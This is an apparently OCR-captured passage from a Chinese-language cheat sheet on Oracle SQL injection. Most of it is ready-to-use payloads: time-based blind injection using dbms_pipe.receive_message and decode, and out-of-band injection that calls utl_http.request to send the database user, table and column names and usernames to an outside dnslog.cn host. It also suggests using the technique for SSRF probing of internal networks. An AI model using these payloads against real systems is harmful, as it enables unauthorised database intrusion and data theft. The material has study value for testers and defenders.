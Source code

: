 ```sql
?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(username as varchar(4000)),chr(32)) from test.users where rownum=1),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+
```

## decode ()

原理：结合耗费时间的查询语句,不过在使用的过程中有很多不尽如人意的地方，有时候加载快有时加载慢。

```sql
?id=1 and 1=(select decode(substr(user,1,1),'S',(select count(*) from all_objects),0) from dual) --+
```

## decode () 与 dbms_pipe.receive_message () 嵌套时间盲注

```sql
?id=1 and 1=(select decode(substr(user,1,1),'S',dbms_pipe.receive_message('RDS', 5),0) from dual) --+
```

## DNS外带注入

Oracle 注入之带外通信和 DNSLOG 注入非常相似，例如和 mysql 中 load_file () 函数实现无回显注入非常相似。

Oracle 发送 HTTP 和 DNS 请求，并将查询结果带到请求中，然后检测外网服务器的 HTTP 和 DNS 日志，从日志中获取查询结果，通过这种方式将繁琐的盲注转换成可以直接获取查询结果的方式。

使用第三方平台，监听访问请求，并记录请求的日志信息，然后使用 utl_http.request() 向外网主机发送 http 请求，请求便携带了查询的结果信息。此处可以结合 SSRF 进行内网探测。或许这就是 Oracle 的 SSRF。

利用 utl.inaddr.get_host_address()，将查询结果拼接到域名下，并使用 DNS 记录解析日志，通过这种方式获取查询结果。

```sql
# 检测是否支持 utl_http.request
?id=1 and exists (select count(*) from all_objects where object_name='UTL_HTTP') --+

# 获取用户名
?id=1 and utl_http.request('http://'%7c%7c(select user from dual)%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+

# 获取表名
?id=1 and utl_http.request('http://'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+

# 获取列名
?id=1 and utl_http.request('http://'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+

# 获取数据
?id=1 and utl_http.request('http://'%7c%7c(select username from test.users where rownum=1)%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+
```



